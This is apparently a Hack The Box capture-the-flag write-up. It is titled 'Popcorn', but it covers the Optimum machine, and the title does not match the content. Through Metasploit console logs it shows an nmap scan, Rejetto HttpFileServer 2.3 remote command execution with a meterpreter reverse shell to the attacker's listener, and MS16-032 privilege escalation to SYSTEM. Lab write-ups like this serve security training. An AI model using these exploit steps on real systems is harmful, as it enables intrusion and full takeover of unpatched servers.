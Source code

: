 ```yaml
---
layout: post
title: Popcorn(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.8
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.8

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 15:14 EST
<br>Nmap scan report for 10.10.10.8
<br>Host is up (0.15s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">HttpFileServer httpd 2.3</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone
<br>Running (JUST GUESSING): Microsoft Windows 2012|7|Phone|2008|8.1|Vista (91%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
<br>Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 Professional or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (85%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 29.52 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>**Web**:-
![web](https://teckk2.github.io/assets/images/Optimum/1-Optimum.png)
<br>The target machine is running HttpFileserver 2.3 for which there is a public exploit available.
<br>**Exploit**:- [Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)
<br>**Vulnerabilty Description:-**:- Rejetto HttpFileServer (HFS) is vulnerable to remote command execution attack due to a poor regex in the file ParserLib.pas. This module exploits the HFS scripting commands by using '%00' to bypass the filtering. This module has been tested successfully on HFS 2.3b over Windows XP SP3, Windows 7 SP1 and Windows 8.

<br>**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/windows/http/rejetto_hfs_exec
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set RHOST 10.10.10.8
<br>RHOST => 10.10.10.8
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set payload windows/x64\reterpreter/reverse_tcp
<br>payload => windows/x64/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Using URL: http://0.0.0.0:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Local IP: http://192.168.140.136:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Server started.
<br><font color="RoyalBlue">[*]</font> Sending a malicious request to /
<br><font color="RoyalBlue">[*]</font> Payload request received: /aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Sending stage (1189423 bytes) to 10.10.10.8
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.8:49162) at 2017-12-19 16:18:59 -0500
<br><font color="ffff00">[!]</font> Tried to delete %TEMP%\mbSzL.vbs, unknown result
<br><font color="RoyalBlue">[*]</font> Server stopped.</p>

<p>meterpreter > getuid
<br>Server username: <font color="53E100">OPTIMUM\kostas</font>
<br>meterpreter > sysinfo
<br>Computer        : OPTIMUM
<br>OS              : Windows 2012 R2 (Build 9600).
<br>Architecture    : x64
<br>System Language : el_GR
<br>Domain          : HTB
<br>Logged On Users : 1
<br>Meterpreter     : x64/windows
<br>meterpreter ></p> 

</div>
</font>
<br>Now we have the user _Kostas_ access, the target machine is running windows 2012 x64 so we can try MS16-032 exploit.
<br>[MS16-032 Secondary Logon Handle Privilege Escalation](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc)
<br>**Exploit Description:-**:- This module exploits the lack of sanitization of standard handles in Windows' Secondary Logon Service. The vulnerability is known to affect versions of Windows 7-10 and 2k8-2k12 32 and 64 bit. This module will only work against those versions of Windows with Powershell 2.0 or later and systems with two or more CPU cores.
<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf exploit(rejetto_hfs_exec) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
<br>msf exploit(ms16_032_secondary_logon_handle_privesc) > set SESSION 1
<br>SESSION => 1
<br>msf exploit(ms16_032_secondary_logon_handle_privesc) > set TARGET 1
<br>TARGET => 1
<br>msf exploit(ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(ms16_032_secondary_logon_handle_privesc) > exploit</p> 

<p>[*] Started reverse TCP handler on 10.10.*.*:4444 
<br>[*] Writing payload file, C:\Users\kostas\Desktop\xHWLMuJ.txt...
<br>[*] Compressing script contents...
<br>[+] Compressed size: 3584
<br>[*] Executing exploit script...
<br>[*] Command shell session 2 opened (10.10.*.*:4444 -> 10.10.10.8:49164) at 2017-12-19 16:53:33 -0500</p>


<p>^C[-] Error while running command exploit: 
<br>msf exploit(ms16_032_secondary_logon_handle_privesc) > sessions -l</p>

<p>Active sessions
<br>===============</p>

<p>  Id  Type                     Information               Connection
<br>  --  ----                     -----------               ----------
<br>  1   meterpreter x64/windows  OPTIMUM\kostas @ OPTIMUM  10.10.*.*:4455 -> 10.10.10.8:49162 (10.10.10.8)
<br>  2   shell x64/windows                                  10.10.*.*:4444 -> 10.10.10.8:49164 (10.10.10.8)</p>

<p>msf exploit(ms16_032_secondary_logon_handle_privesc) > sessions -i 2
<br>[*] Starting interaction with 2...</p>

<p>Microsoft Windows [Version 6.3.9600]
<br>(c) 2013 Microsoft Corporation. All rights reserved.</p>

<p>C:\Users\kostas\Desktop>whoami
<br>whoami
<br>nt authority\system</p>

<br>C:\Users\kostas\Desktop>


</div>
</font>
